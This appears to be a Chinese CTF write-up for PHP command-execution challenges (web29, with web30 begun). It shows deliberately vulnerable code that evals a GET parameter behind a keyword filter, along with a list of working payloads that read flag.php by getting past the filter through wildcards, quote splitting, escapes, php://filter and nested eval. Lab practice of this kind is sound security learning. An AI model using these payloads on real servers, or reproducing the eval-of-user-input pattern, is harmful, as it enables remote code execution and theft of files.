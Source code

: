 

```
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

```
首先执行ls命令，利用system
?c=system(ls);
得到两个文件 flag.php和index.php
用cat命令读取flag.php，因为过滤了flag所以使用通配符
?c=system('cat fla*.php');
?c=system("nl fla?????");
?c=echo `nl fl''ag.php`;或者c=echo `nl fl“”ag.php`;
?c=echo `nl fl\ag.php`;//转义字符绕过
?c=include($_GET[1]);&1=php://filter/read=convert.base64-encode/resource=flag.php
?c=eval($_GET[1]);&1=system('nl flag.php');
?c=awk '{printf $0}' flag.php||
?c=$a="fla";$b="g.php";echo%20file_get_contents($a.$b);
```



```
linux文件内容查看命令
cat、tac、nl、more、less、head、tail、``
```



```
通配符
*可以通配多个字符
?可以通配一个字符
```



## web30

过滤了flag、system、php

```
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
